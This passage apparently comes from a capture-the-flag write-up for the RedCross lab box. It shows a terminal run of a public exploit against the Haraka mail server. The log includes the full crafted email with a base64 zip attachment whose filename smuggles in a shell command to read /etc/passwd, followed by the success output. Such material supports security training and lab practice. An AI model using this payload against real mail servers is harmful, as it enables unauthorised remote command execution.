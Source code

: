 From this we are able to construct all the arguments we need to run a test command.
```
root@kali: python 41162.py -c 'cat /etc/passwd' -t thoseguys@redcross.htb -m redcross.htb
##     ##    ###    ########     ###    ##    ## #### ########  #### 
##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##  
##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##  
######### ##     ## ########  ##     ## #####     ##  ########   ##  
##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##  
##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##  
##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## #### 
                                                 
-o- by Xychix, 26 January 2017 ---
-o- xychix [at] hotmail.com ---
-o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --

-i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

Send harariki to thoseguys@redcross.htb, attachment saved as harakiri-20181212-103434.zip, commandline: cat /etc/passwd , mailserver redcross.htb is used for delivery
Content-Type: multipart/mixed; boundary="===============1419915672=="
MIME-Version: 1.0
Subject: harakiri
From: harakiri@exploit.db
To: thoseguys@redcross.htb

--===============1419915672==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

harakiri
--===============1419915672==
Content-Type: application/octet-stream; Name="harakiri.zip"
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="harakiri.zip"

UEsDBBQAAAAIAFFUjE1wUAUkbAEAAI0BAAAeAAAAYSI7Y2F0IC9ldGMvcGFzc3dkO2VjaG8gImEu
emlwC/BmZhFhYGDgYAgM6fEVX9agLszIwMDOzMDAAxTNSCxKzM4sytQrqSiZGng6r9lAYM9vbbdH
kzxMVWQyRLZ+XxUfsPJVIjNf2SnvDUs+fH868QNX0NWpEuvL064n50RmHN5UtUc/NiFsd6J7Txdf
q+nMSxedj3vlNnQu+nskaf8yyUkXrz6esnvnxJm/5l5VW3t4rnic2Oc8g7W6e3pu35xSue3Lpx/x
1/b+mdubb7KXkeWftNMyoeVS8lvX+35luX7YWlX1qemdu/8kg075BZXa2HXuXxDcd9Jl2/xjzOtX
6XjxOgf73W9R4Z1Sq3nhFdfU+NC+6eE7vh20S/icHNE84+T1jV4SkSFtaow/c9Yd0bphFtw6we2Q
yvMvHGfniLof55y979MVuddfjlvk/500NfDJm71z23mzWeODhbQ2qB27GaKVERScc1Q/wJuRSYQB
d/DBQAMjA1pgBnizsoHEGIHQCkjbglUAAFBLAQIUABQAAAAIAFFUjE1wUAUkbAEAAI0BAAAeAAAA
AAAAAAAAAACAAQAAAABhIjtjYXQgL2V0Yy9wYXNzd2Q7ZWNobyAiYS56aXBQSwUGAAAAAAEAAQBM
AAAAqAEAAAAA
--===============1419915672==--

[HARAKIRI SUCCESS] SMTPDataError is most likely an error unzipping the archive, which is what we want [Error unpacking archive]
```
